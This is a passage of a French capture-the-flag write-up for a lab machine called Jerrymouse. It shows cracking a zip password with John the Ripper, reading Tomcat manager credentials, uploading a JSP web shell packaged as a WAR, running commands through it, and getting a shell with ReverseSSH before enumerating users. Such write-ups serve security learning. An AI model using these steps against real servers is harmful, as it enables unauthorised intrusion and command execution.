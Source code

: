 ```plain
---------                     -------
   214812                     10 files
```

Jerrymouse
----------

On passe l'archive à *zip2john* qui nous transforme cela en un beau hash de 3km puis à John the Ripper himself avec la wordlist *Rockyou* qui nous retrouve le mot de passe *@administrator\_hi5*.  

Le fichier *tomcat-users.xml* contient comme attendu les identifiants pour la zone *manager* :  

```html
<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
```

Dès lors on peut uploader un shell au format WAR. Je n'avais pas envie de lancer un Kali + Metasploit juste pour ça, il existe différents outils plus basiques mentionnés sur [HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#manual-method-web-shell).  

L'archiveur jar n'était pas présent sur ma machine mais j'ai trouvé un petit paquet *fastjar* pour ma distrib openSUSE (*zypper in fastjar*).  

```bash
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ fastjar -cvf ../webshell.war *
```

Une fois le WAR uploadé j'obtiens mon shell à cette adresse : *http://192.168.56.12:8080/webshell/index.jsp?cmd=uname+-a*  

Let's take a look
-----------------

Un coup de [ReverseSSH](https://github.com/Fahrj/reverse-ssh) (mon nouveau meilleur ami) plus tard je fouille dans ce système qui a deux utilisateurs non privilégiés.  

```plain
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
jaye:x:1002:1002::/home/jaye:/bin/sh
```

Je peux zieuter dans le dossier de *Randy* :  

```plain
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Desktop
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Documents
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Downloads
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Music
-rw-r--r-- 1 root  root   283 Sep 20 19:56 note.txt
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Pictures
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Public
-rwxr-xr-x 1 root  root   210 Sep 20 19:48 randombase64.py
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Templates
-rw-rw-r-- 1 randy randy   33 Sep 17 02:09 user.txt
drwxr-xr-x 2 randy randy 4096 Sep 16 17:23 Videos
```
